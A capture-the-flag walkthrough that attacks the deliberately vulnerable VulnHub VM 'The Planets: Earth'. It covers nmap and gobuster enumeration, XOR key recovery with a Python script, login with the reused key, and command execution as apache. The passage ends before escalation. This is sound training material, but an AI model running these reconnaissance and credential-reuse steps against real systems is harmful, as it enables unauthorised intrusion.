

# Attack on the box "The Planets: Earth"

Target box: [click here](https://www.vulnhub.com/entry/the-planets-earth,755/)

OS: **Nix type*

File format: *.OVA*

Difficulty: *easy*

Goals: *Capture the user and root flag*

Description: 

Earth is an easy box though you will likely find it more challenging than "Mercury" in this series and on the harder side of easy.

---
### Introduction

First, we must find the IP of the target machine. In real world this is known beforehand or it can be found by an nslookup. Just *dig \<url\> A* returns the A record of the domain name. Here the machines are running in VirtualBox. Network configuration is "NAT network" for all machines (attacking machine and targets) with network CIDR set to **10.0.2.0/24**. Consequently, machine's IP is in the range of **10.0.2.0-255**. From our machine we can scan this range only for host discovery:

```
$ nmap 10.0.2.0-255 -sL | grep \(
Starting Nmap 7.80 ( https://nmap.org ) at 2022-01-27 02:42 EST
Nmap scan report for earth.local (10.0.2.7)
Nmap done: 256 IP addresses (0 hosts up) scanned in 1.70 seconds
```
-sL flag stands for Scan List. It just scans for which hosts are up for the IPs. The ""| grep \()" part is used to filter out the useless lines. If a host is up then its line while contain parentheses(right parenthesis can also do).Of course, backslash is for escaping.

As we can see, at IP 10.0.2.7 there is a host with name earth.local. This is our target. By the way, if we want to check for our IP address, because it belongs to our LAN we can do an 

```
$ ip a
```
and under the -enpxsx- we can check the *inet*. In our machine is 10.0.2.4, but in your machine should be some other IP.

Before we start, it will be a good idea to set the target's IP in a global variable. So we set it to TRG (target):

```
$ TRG=10.0.2.7
$ echo $TRG
10.0.2.7
```

Perfect. We are ready to start. As always, there are four basic "steps". Enumeration, Foothold, User access and finally root/admin access (or privileges escalation).

### Enumeration

Let's start with a basic port scan.

```
$ sudo nmap $TRG -sS
Starting Nmap 7.80 ( https://nmap.org ) at 2022-01-27 03:16 EST
Nmap scan report for earth.local (10.0.2.7)
Host is up (0.00048s latency).
Not shown: 997 filtered ports
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
443/tcp open  https
MAC Address: 08:00:27:80:91:15 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 5.22 seconds

```

*sudo* is needed because flag -sS does a TCP SYN port scan, which needs root privileges. If you don't have root privileges(vary rare, as you usually fully own the attacking machine) you can port scan using the *-sT* flag. SYN port scan is faster though, as it does not attempt a complete TCP connection but sends raw packages(that's why it needs root privileges).

By default, 1000 ports were scanned. 3 open ports found, while 997 are filtered. This means that a firewall is running on the target machine. For these 997 filtered ports we don't know if a daemon is running at some of them or they are really closed. There are techniques to find out but better to start spending our time on the open ports first.

### Foothold

It is time to start exploring the open ports and see what other information we can get to set a foot on the target. It will be wise to forget about ssh(port 22), as we don't have any credentials. Http and https are open for as though. Let's try to access http service using our browser. We type 'http://10.0.2.7' in our favorite browser but we get a 400 error code (but request). Another way is to use *wget* or *curl* to access the $TRG ip but the result will be, of course, the same. Not a good start.

Trying the same on https port (https://10.0.2.7) we get a Fedora Webserver Test Page, as it can be seen:

 

That means that a webserver is running(expected because of the open ports) and is misconfigured. It shouldn't show any kind of data to the public. That's good news for the bad guys(us, the red team). It is reasonable to assume that at least a virtual host exists. We are going to use *nmap* again with standard NSE Scripts (*-sC* flag). We also use the *-vv* flag to get more details:

```
$ nmap -p443 10.0.2.7 -sC -vv
Starting Nmap 7.80 ( https://nmap.org ) at 2022-01-27 04:14 EST
NSE: Loaded 121 scripts for scanning.
............
```

We don't provide the output here. The output contains an SSL certificate and other info about two domain names. Let's rerun the command without *-vv* flag.

```
$ nmap -p443 10.0.2.7 -sC
Starting Nmap 7.80 ( https://nmap.org ) at 2022-01-27 04:15 EST
Nmap scan report for earth.local (10.0.2.7)
Host is up (0.0012s latency).

PORT    STATE SERVICE
443/tcp open  https
|_http-title: Earth Secure Messaging
| ssl-cert: Subject: commonName=earth.local/stateOrProvinceName=Space
| Subject Alternative Name: DNS:earth.local, DNS:terratest.earth.local
| Not valid before: 2021-10-12T23:26:31
|_Not valid after:  2031-10-10T23:26:31
| tls-alpn: 
|_  http/1.1

Nmap done: 1 IP address (1 host up) scanned in 1.39 seconds

```

We have two domain names, "earth.local" and "terratest.earth.local". Obviously, these are temporal domain names and DNS records do not exist for them. An SSL certificate has been taken for them, so they meant to be used in the future in public. We can be almost sure that the web server has been configured with two virtual hosts by using these domain names. Or one virtual host with a domain name and the other as an alias.
 
As there are no DNS records for these domains we can fool the browser by providing A records only for our machine. Before a DNS lookup takes place linux systems search the */etc/hosts* file. We can open it as root with an editor and add the following line:

```
10.0.2.7		earth.local	terratest.earth.local
```

Let's try again to browse the two domains. They both show the same webpage for http, while for https the subdomain (terratest.earth.local) shows a "Test site, please ignore." text message. Lets focus on http://earth.local:



By visiting the site we can see that we can create encoded messages after we provide a message and a message key. These encoded messages are persistent between sessions(we can see that if we use a different browser or clear our browser storage, so it is not a local thing). It is almost sure that a database is running. Let's try mySQL default port first.

```
$ nmap -p3306 $TRG -sC
Starting Nmap 7.80 ( https://nmap.org ) at 2022-01-27 05:39 EST
Nmap scan report for earth.local (10.0.2.7)
Host is up (0.00082s latency).

PORT     STATE    SERVICE
3306/tcp filtered mysql

Nmap done: 1 IP address (1 host up) scanned in 0.53 seconds
```

Our guess proved correct, a mysql server is running on default port(3306). Notice the STATE, it is filtered, so it is running behind a firewall. That means that we can't access it directly. Good for the target, bad for us. We must try something else...

```
$ gobuster -u https://earth.local/ -w /usr/share/wordlists/KaliLists/dirb/common.txt -k

=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : https://earth.local/
[+] Threads      : 10
[+] Wordlist     : /usr/share/wordlists/KaliLists/dirb/common.txt
[+] Status codes : 200,204,301,302,307,403
[+] Timeout      : 10s
=====================================================
2022/01/27 23:17:10 Starting gobuster
=====================================================
/admin (Status: 301)
/cgi-bin/ (Status: 403)
=====================================================
2022/01/27 23:17:33 Finished
=====================================================

```

*-w* flag just specifies the path of the text file, which contains common words to check as filenames or dirnames. *-k* flag is to ignore SSL cert (else we'll get an error). The larger the text file, the most probable to find many files, in the expense of time. On real targets a large text file may slow down or even bring down the server, so we must be careful. Better start with common.txt, which contains the most common file/dir names and also has a small size.

We got something useful, /admin. Navigating to https://earth.local/admin we can't avoid noticing that this is an admin comman toll interface. That's great news. Unfortunately we must login, but we don't know the credentials. Hmm...

More enumeration never hurts. Lets run gobuster to the subdomain:

```
$ gobuster -u https://terratest.earth.local/ -w /usr/share/wordlists/KaliLists/dirb/common.txt -k

=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : https://terratest.earth.local/
[+] Threads      : 10
[+] Wordlist     : /usr/share/wordlists/KaliLists/dirb/common.txt
[+] Status codes : 200,204,301,302,307,403
[+] Timeout      : 10s
=====================================================
2022/01/28 01:43:29 Starting gobuster
=====================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/cgi-bin/ (Status: 403)
/index.html (Status: 200)
/robots.txt (Status: 200)
=====================================================
2022/01/28 01:43:48 Finished
=====================================================
```

I know, you are already eyeing the .hta* files. But the status code for all of them is 403, which means that we don't have access. *index.html* is of no help either (we already got them in our browser before). Our final shot is the robots.txt file:

```
$ wget https://terratest.earth.local/robots.txt --no-check-certificate
```

The flag is to bypass SSL certificate check. Let's see the contents of our fresh file:

```
$ cat robots.txt
User-Agent: *
Disallow: /*.asp
Disallow: /*.aspx
Disallow: /*.bat
Disallow: /*.c
Disallow: /*.cfm
Disallow: /*.cgi
Disallow: /*.com
Disallow: /*.dll
Disallow: /*.exe
Disallow: /*.htm
Disallow: /*.html
Disallow: /*.inc
Disallow: /*.jhtml
Disallow: /*.jsa
Disallow: /*.json
Disallow: /*.jsp
Disallow: /*.log
Disallow: /*.mdb
Disallow: /*.nsf
Disallow: /*.php
Disallow: /*.phtml
Disallow: /*.pl
Disallow: /*.reg
Disallow: /*.sh
Disallow: /*.shtml
Disallow: /*.sql
Disallow: /*.txt
Disallow: /*.xml
Disallow: /testingnotes.*
```

The last line is of important to us. Unfortunately, we must guess the extension. htm, html, php and txt worth a try. Trying them we can see that *testingnotes.txt* really exists on the server:

```
$ wget https://terratest.earth.local/testingnotes.txt --no-check-certificate
```

Whoever is responsible for the security of this server is an amateur. Not only he could avoid the last entry by setting the read permissions to user only(600) but even without touching the permissions it could just ignore */testingnotes.** as _Disallow: /*.txt_ covers the */testingnotes.txt* file. It's an unexpected gift for us. Time to see the contents of the downloaded file.

```
$ cat testingnotes.txt
Testing secure messaging system notes:
*Using XOR encryption as the algorithm, should be safe as used in RSA.
*Earth has confirmed they have received our sent messages.
*testdata.txt was used to test encryption.
*terra used as username for admin portal.
Todo:
*How do we send our monthly keys to Earth securely? Or should we change keys weekly?
*Need to test different key lengths to protect against bruteforce. How long should the key be?
*Need to improve the interface of the messaging interface and the admin panel, it's currently very basic.
```

**VERY** useful. Let's see the notes one by one:

- Using XOR encryption as the algorithm, should be safe as used in RSA.

Laughing in undergraduate CS. XOR is completely reversible and you can extract the "key" if you have the input and the output. Completely irrelevant for RSA. Also, the author of the notes seems that does not know anything about symmetric or asymmetric cryptography.

- Earth has confirmed they have received our sent messages.

Hard to believe, if they have received they would have changed the encryption scheme.

- testdata.txt was used to test encryption.

Thanks for the info!

- terra used as username for admin portal.

Another very useful information.


About their todo list, we again see that they don't know anything about cryptography. They need some basic lessons! Hopefully, we are going to provide them one. About the interface, yes it's very basic but it can do our job. Thanks in advance!

We can download testdata.txt and see what's inside:

```
$ wget https://terratest.earth.local/testdata.txt --no-check-certificate
```

Success.

```
$ cat testdata.txt
According to radiometric dating estimation and other evidence, Earth formed over 4.5 billion years ago. Within the first billion years of Earth's history, life appeared in the oceans and began to affect Earth's atmosphere and surface, leading to the proliferation of anaerobic and, later, aerobic organisms. Some geological evidence indicates that life may have arisen as early as 4.1 billion years ago.
```

Ok, they used this text with a message key to produce an encrypt message. From the website we can see that the encrypted message is "2402111b1a...80a0e5a". Fiddling a bit with the form we see that this is really a simple XOR schema. As *(A xor A)=0* for example, Setting the message and message key both to the string "abc" we get an output of "000000". We observe that each string is converted to hex byte by byte and xored. The output is in hex. Whey don't know the key, **K**, but we know that $$msg $\veebar$ key = output$$. Consequently, $$(msg $\veebar$  msg) $\veebar$ key = msg $\veebar$ output => 0 $\veebar$ key = msg $\veebar$ output => key= msg $\veebar$ output$$

So, to find the key we must XOR the message with the output. We know the message, which is the content of *testdata.txt* and the encrypted message (output) form the website("2402111b1a...80a0e5a"). We first convert the message from ASCII to hex and the xor it with output. Finally, we convert the xored result to ASCII. This task can be easily carried out. We are going to use python3, but any interpreted language or bash can do the job well. Another solution is to use online help from websites, for example [rapidtables.com](https://www.rapidtables.com/convert/number/)

Let's see the python script:

```
#!/usr/bin/python3

import sys

def main():
    if (len(sys.argv)!=3):
        print('Correct syntax is getKey <message> <output>')
        return

    msg=sys.argv[1]
    out=sys.argv[2]

    key=''    
    for i in range(len(msg)):
        op1=ord(msg[i])
        op2=int(out[2*i:2*i+2], 16)
        result=chr((op1^op2))
        key=key+result

    print('')    
    print(key)
    return

main()
```

By running it, we get the following

```
$ python3 getKey.py "According to radiometric dating estimation and other evidence, Earth formed over 4.5 billion years ago. Within the first billion years of Earth's history, life appeared in the oceans and began to affect Earth's atmosphere and surface, leading to the proliferation of anaerobic and, later, aerobic organisms. Some geological evidence indicates that life may have arisen as early as 4.1 billion years ago." "2402111b1a0705070a41000a431a000a0e0a0f04104601164d050f070c0f15540d1018000000000c0c06410f0901420e105c0d074d04181a01041c170d4f4c2c0c13000d430e0e1c0a0006410b420d074d55404645031b18040a03074d181104111b410f000a4c41335d1c1d040f4e070d04521201111f1d4d031d090f010e00471c07001647481a0b412b1217151a531b4304001e151b171a4441020e030741054418100c130b1745081c541c0b0949020211040d1b410f090142030153091b4d150153040714110b174c2c0c13000d441b410f13080d12145c0d0708410f1d014101011a050d0a084d540906090507090242150b141c1d08411e010a0d1b120d110d1d040e1a450c0e410f090407130b5601164d00001749411e151c061e454d0011170c0a080d470a1006055a010600124053360e1f1148040906010e130c00090d4e02130b05015a0b104d0800170c0213000d104c1d050000450f01070b47080318445c090308410f010c12171a48021f49080006091a48001d47514c50445601190108011d451817151a104c080a0e5a"

earthclimatechangebad4humansearthclimatechangebad4humansearthclimatechangebad4humansearthclimatechangebad4humansearthclimatechangebad4humansearthclimatechangebad4humansearthclimatechangebad4humansearthclimatechangebad4humansearthclimatechangebad4humansearthclimatechangebad4humansearthclimatechangebad4humansearthclimatechangebad4humansearthclimatechangebad4humansearthclimatechangebad4humansearthclimat

```


We can see that the message key is replicated from the string *earthclimatechangebad4humans* until it matches the message length.

Human beings have brains that are lazy in many ways. Memorizing is one of them. People prefer to use a single password for all services they want to access. For admin access, it's worth a try to use as password the above string. Message key can be though as a "password" by some, as it is used as a secret key (key for encryption/decryption in XOR, which is a crude symmetric scheme). We already know the username, it is *terra*,as mentioned in the  testingnotes.txt file . We go to the [login page](https://earth.local/admin/login) and try the credentials

```
terra : earthclimatechangebad4humans
```

We are in!

### Escalation to user

It's time for play now. Our first job is to see what count of account is this, which OS the server is running plus any other useful information we can get. By starting

```
whoami
Command output: apache
```

```
id
Command output: uid=48(apache) gid=48(apache) groups=48(apache) 
```

So the account that runs the admin tool is apache itself. Nice, apache sometimes can run scripts with root privileges. Also, OS machine is *nix (unix type). Indeed:

```
uname -a
Command output: Linux earth 5.14.9-200.fc34.x86_64 #1 SMP Thu Sep 30 11:55:35 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
```

```
cat /etc/os-release
CLI command:
Command output: NAME=Fedora VERSION="34 (Server Edition)" ID=fedora VERSION_ID=34 VERSION_CODENAME="" PLATFORM_ID="platform:f34" PRETTY_NAME="Fedora 34 (Server Edition)" ANSI_COLOR="0;38;2;60;110;180" LOGO=fedora-logo-icon CPE_NAME="cpe:/o:fedoraproject:fedora:34" HOME_URL="https://fedoraproject.org/" DOCUMENTATION_URL="https://docs.fedoraproject.org/en-US/fedora/f34/system-administrators-guide/" SUPPORT_URL="https://fedoraproject.org/wiki/Communicating_and_getting_help" BUG_REPORT_URL="https://bugzilla.redhat.com/" REDHAT_BUGZILLA_PRODUCT="Fedora" REDHAT_BUGZILLA_PRODUCT_VERSION=34 REDHAT_SUPPORT_PRODUCT="Fedora" REDHAT_SUPPORT_PRODUCT_VERSION=34 PRIVACY_POLICY_URL="https://fedoraproject.org/wiki/Legal:PrivacyPolicy" VARIANT="Server Edition" VARIANT_ID=server 
```

A linux system, Fedora distro. 

```
ls /
Command output: bin boot dev etc home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var 
```

Classical linux HFS. Let as see what users exist in the server.

```
ls -l /home
Command output: total 0 drwx------. 4 earth earth 141 Oct 13 00:23 earth 
```

So there is a user with nickname "earth". His home directory has correct permission (as expected), so we can't access anything in it.